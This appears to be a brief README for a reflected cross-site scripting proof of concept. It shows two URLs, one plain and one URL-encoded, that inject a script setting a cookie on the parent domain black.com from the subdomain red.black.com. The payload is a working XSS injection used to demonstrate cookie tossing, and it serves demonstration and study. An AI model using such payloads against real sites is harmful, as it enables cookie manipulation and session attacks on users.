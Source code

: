 # Description

- this app is running on the red.black.com domain.
- PoC for the XSS exploitation 

- payload to set a cookie of it's parent domain black.com
```
http://red.black.com/xss?payload=<script>document.cookie = "color=green;domain=black.com"</script>
http://red.black.com/xss?payload=%3Cscript%3Edocument.cookie%20=%20%22color=green;domain=black.com%22%3C/script%3E
```